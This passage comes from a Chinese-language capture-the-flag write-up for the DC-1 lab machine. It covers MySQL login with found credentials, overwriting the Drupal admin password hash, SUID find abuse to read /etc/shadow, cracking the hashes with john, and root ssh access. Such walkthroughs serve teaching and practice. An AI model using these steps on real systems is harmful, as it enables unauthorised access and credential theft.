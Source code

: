 尝试登录 mysql，注意 `-p` 参数和密码间[不要有空格](https://jacobtomlinson.dev/posts/2013/why-is-there-no-space-in-the-mysql-password-parameter/)

```text
mysql -udbuser -pR0ck3t
```

在 drupaldb.users 表里找到三个用户，密码都是经过加密的

| name  | pass                                                    |
|-------|---------------------------------------------------------|
| admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
| test  | $S$DTwWb.MjZ8ihU.gMo1vZu32NCKL5p6YJpDVqgorKBibR/bdHK6/k |

直接破解密文比较难，而且官方提供了密码的加密脚本，我们可以用脚本加密一个新密码替换 admin 的原密码[^fn:2]

```text
www-data@DC-1:/var/www$ php ./scripts/password-hash.sh 1234

password: 1234          hash: $S$DztFxVCdeC3ja0/0GJ.ZkDa01hC/FD5zgb6Ar3/vb1Gzfqu2rhAK
```

```text
mysql> update drupaldb.users set pass='$S$DztFxVCdeC3ja0/0GJ.ZkDa01hC/FD5zgb6Ar3/vb1Gzfqu2rhAK' where name='admin';
```

修改密码后登录后台，在 Content 页找到 flag3，又是新的提示

```text
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
```

这里 PERMS 和 FIND 两个大写单词给了提示，应该是用 find 的 SUID 提权读取 shadow 文件内容

<details><summary>find . -exec cat /etc/shadow \; -quit</summary></details>

拿到 shadow 的内容后直接给 john 破解得到弱口令

```text
❯ john dc1-shadow
...
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
123456           (root)
orange           (flag4)
```

先 ssh 登录 root，然后找到 /root/thefinalflag.txt

```text
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```


[^fn:1]: <https://blog.csdn.net/qq_45290991/article/details/114189156>
[^fn:2]: <https://drupalchina.cn/node/2128>
[^fn:3]: <https://www.leavesongs.com/PHP/backshell-via-php.html>